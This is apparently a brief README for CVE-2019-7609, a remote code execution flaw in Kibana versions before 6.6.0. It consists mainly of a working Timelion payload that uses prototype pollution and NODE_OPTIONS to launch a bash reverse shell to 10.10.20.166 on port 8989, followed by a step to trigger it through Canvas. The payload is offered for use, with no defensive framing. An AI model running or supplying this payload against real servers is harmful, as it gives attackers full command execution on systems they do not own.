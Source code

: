 # CVE-2019-7609 kibana-RCE <6.6.0 未授权远程代码命令执行 (Need Timelion And Canvas)

![](./kibana_RCE.gif)


## 0x01 Timelion Run
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.10.20.166/8989 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
![](./version.jpg)
![](Timelion.jpg)

## 0x02 Click Canvas to getshell

![](./Canvas.jpg)

